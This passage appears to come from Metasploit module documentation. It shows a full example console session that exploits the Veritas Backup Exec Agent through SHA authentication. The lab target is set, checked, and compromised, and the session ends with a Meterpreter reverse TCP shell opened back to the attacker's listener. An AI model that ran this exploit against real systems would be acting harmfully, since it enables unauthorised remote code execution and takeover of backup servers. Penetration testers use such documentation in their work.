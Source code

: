 An example session is as follows:

```
msf > use exploit/multi/veritas/beagent_sha_auth_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.180.141
rhosts => 172.16.180.141
msf exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.180.248
lhost => 172.16.180.248
msf exploit(multi/veritas/beagent_sha_auth_rce) > show options

Module options (exploit/multi/veritas/beagent_sha_auth_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  172.16.180.141   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   10000            yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
[*] 172.16.180.141:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 172.16.180.141:10000 - BE agent revision: 9.3
[*] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
msf exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444
[*] 172.16.180.141:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
[*] 172.16.180.141:10000 - Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
[*] 172.16.180.141:10000 - BE agent revision: 9.3
[+] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
[*] 172.16.180.141:10000 - Exploiting ...
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.141:10000 - Passing SHA authentication
[*] 172.16.180.141:10000 - Uploading payload with NDMP_FILE_WRITE packet
[*] Sending stage (175686 bytes) to 172.16.180.141
[*] Meterpreter session 1 opened (172.16.180.248:4444 -> 172.16.180.141:49629) at 2022-09-23 10:33:42 +0300

meterpreter > getuid
```